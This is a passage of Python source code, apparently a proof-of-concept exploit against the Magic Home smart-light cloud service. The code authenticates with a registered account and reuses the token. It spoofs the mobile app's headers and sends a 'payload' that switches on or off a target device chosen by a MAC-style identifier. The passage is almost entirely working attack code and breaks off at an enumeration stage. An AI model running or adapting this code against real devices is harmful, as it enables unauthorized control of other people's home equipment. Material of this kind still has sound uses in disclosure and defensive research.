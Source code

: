 ```
    headersOff = {
        "User-Agent":"Magic Home/1.5.1(ANDROID,9,en-US)",
        "Accept-Language": "en-US",
        "Accept": "application/json", 
        "Content-Type": "application/json; charset=utf-8",
        "token":token,
        "Host": "wifij01us.magichue.net",
        "Connection": "close",
        "Accept-Encoding": "gzip, deflate"
    }
    print (Fore.WHITE + "[+] Sending Payload ...")
    response = requests.post(urlOff, data=data, headers=headersOff)
    if response.status_code == 200:
        if "true" in response.text:
            print (Fore.GREEN + "[*] Endpoint " + Style.RESET_ALL + f"{target}" + Fore.GREEN + " Switched Off")
        else:
            print (Fore.RED + "[-] Failed to switch on Endpoint " + Style.RESET_ALL + f"{target}")

def lighItUp(target, token):

    outtahere = ""
    q = "q"
    if len(str(target)) < 12:
        print (Fore.RED + "[!] Invalid target" + Style.RESET_ALL)
    elif re.match('[0-9a-f]{2}[0-9a-f]{2}[0-9a-f]{2}[0-9a-f]{2}[0-9a-f]{2}[0-9a-f]{2}$', target.lower()):
        while outtahere.lower() != q.lower():
            if outtahere == "0":
                turnOn(target, token)
            elif outtahere == "1":
                turnOff(target, token)
            outtahere = input(Fore.BLUE + "ON/OFF/QUIT ? (0/1/Q): " + Style.RESET_ALL)

def Main():
    urlAuth = "https://wifij01us.magichue.net/app/login/ZG001"

    data = {
        "userID":"<Valid Registered Email/Username>",
        "password":"<Valid Registered Password>",
        "clientID":""
    }

    headersAuth = {
        "User-Agent":"Magic Home/1.5.1(ANDROID,9,en-US)",
        "Accept-Language": "en-US",
        "Accept": "application/json", 
        "Content-Type": "application/json; charset=utf-8",
        "Host": "wifij01us.magichue.net",
        "Connection": "close",
        "Accept-Encoding": "gzip, deflate"
    }

    # First Stage Authenticate

    os.system('clear')
    print (Fore.WHITE + "[+] Authenticating ...")
    response = requests.post(urlAuth, json=data, headers=headersAuth)
    resJsonAuth = response.json()
    token = (resJsonAuth['token'])

    # Second Stage Enumerate

```